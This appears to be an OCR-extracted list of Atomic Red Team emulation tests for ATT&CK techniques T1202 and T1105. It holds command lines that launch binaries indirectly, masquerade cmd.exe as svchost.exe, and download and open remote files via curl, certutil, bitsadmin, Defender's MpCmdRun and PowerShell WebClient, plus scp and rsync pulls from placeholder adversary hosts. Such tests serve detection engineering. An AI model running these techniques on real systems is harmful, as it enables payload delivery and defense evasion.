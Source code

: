 ##T1202: Indirect Command Execution
* conhost.exe "notepad.exe"
* pcalua.exe -a #{process}
pcalua.exe -a C:\Windows\System32\calc.exe
* pcalua.exe -a calc.exe
pcalua.exe -a #{payload_path}
* forfiles /p c:\windows\system32 /m notepad.exe /c calc.exe
forfiles /p c:\windows\system32 /m notepad.exe /c "c:\folder\normal.dll:evil.exe"
* pcalua.exe
##T1105: Ingress Tool Transfer
* scp #{username}@adversary-host:#{remote_file} #{local_path}
* rsync -r adversary@#{remote_host}:#{remote_path} #{local_path}
* copy C:\Windows\System32\cmd.exe C:\svchost.exe
C:\svchost.exe /c echo T1105 > \\localhost\c$\T1105.txt
* #{curl_path} -k https://github.com/redcanaryco/atomic-red-team/raw/058b5c2423c4a6e9e226f4e5ffa1a6fd9bb1a90e/atomics/T1218.010/bin/AllTheThingsx64.dll -o c:\users\public\music\allthethingsx64.dll
#{curl_path} -k https://github.com/redcanaryco/atomic-red-team/raw/058b5c2423c4a6e9e226f4e5ffa1a6fd9bb1a90e/atomics/T1218.010/bin/AllTheThingsx64.dll --output c:\users\public\music\allthethingsx64.dll
#{curl_path} -k https://github.com/redcanaryco/atomic-red-team/raw/058b5c2423c4a6e9e226f4e5ffa1a6fd9bb1a90e/atomics/T1218.010/bin/AllTheThingsx64.dll -o c:\programdata\allthethingsx64.dll
#{curl_path} -k https://github.com/redcanaryco/atomic-red-team/raw/058b5c2423c4a6e9e226f4e5ffa1a6fd9bb1a90e/atomics/T1218.010/bin/AllTheThingsx64.dll -o %Temp%\allthethingsx64.dll
* rsync -r #{username}@#{remote_host}:/tmp/adversary-rsync/ #{local_path}
* rsync -r #{local_path} victim@#{remote_host}:#{remote_path}
* $imewdbled = $env:SystemRoot + "\System32\IME\SHARED\IMEWDBLD.exe"
& $imewdbled #{remote_url}
* C:\Windows\System32\Curl.exe -k #{file_download} -o c:\users\public\music\allthethingsx64.dll
C:\Windows\System32\Curl.exe -k #{file_download} --output c:\users\public\music\allthethingsx64.dll
C:\Windows\System32\Curl.exe -k #{file_download} -o c:\programdata\allthethingsx64.dll
C:\Windows\System32\Curl.exe -k #{file_download} -o %Temp%\allthethingsx64.dll
* $datePath = "certutil-$(Get-Date -format yyyy_MM_dd)"
New-Item -Path $datePath -ItemType Directory
Set-Location $datePath
certutil -verifyctl -split -f https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/LICENSE.txt
Get-ChildItem | Where-Object {$_.Name -notlike "*.txt"} | Foreach-Object { Move-Item $_.Name -Destination #{local_path} }
* scp #{username}@#{remote_host}:/tmp/adversary-scp #{local_path}
* timeout --preserve-status #{timeout} whois -h #{remote_host} -p #{remote_port} "#{query}" > /tmp/T1105.whois.out
* rsync -r #{username}@adversary-host:#{remote_path} #{local_path}
* sftp #{username}@#{remote_host}:/tmp/adversary-sftp #{local_path}
* (New-Object Net.WebClient).DownloadString('#{target_remote_file}') | Out-File LICENSE.txt; Invoke-Item LICENSE.txt
* scp #{local_file} #{username}@victim-host:#{remote_path}
* cd "%ProgramData%\Microsoft\Windows Defender\platform\4.18*"
MpCmdRun.exe -DownloadFile -url #{remote_file} -path %temp%\Atomic-license.txt
* timeout --preserve-status #{timeout} whois -h #{remote_host} -p #{remote_port} "Hello from Atomic Red Team test T1105" > #{output_file}
* (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/redcanaryco/atomic-red-team/4042cb3433bce024e304500dcfe3c5590571573a/LICENSE.txt') | Out-File #{output_file}; Invoke-Item #{output_file}
* pushd \\localhost\C$
echo var fileObject = WScript.createobject("Scripting.FileSystemObject");var newfile = fileObject.CreateTextFile("AtomicTestFileT1105.js", true);newfile.WriteLine("This is an atomic red team test file for T1105. It simulates how OSTap worms accross network shares and drives.");newfile.Close(); > AtomicTestT1105.js
CScript.exe AtomicTestT1105.js //E:JScript
del AtomicTestT1105.js /Q >nul 2>&1
del AtomicTestFileT1105.js /Q >nul 2>&1
popd
* C:\Windows\System32\bitsadmin.exe /transfer #{bits_job_name} /Priority HIGH #{remote_file} %temp%\Atomic-license.txt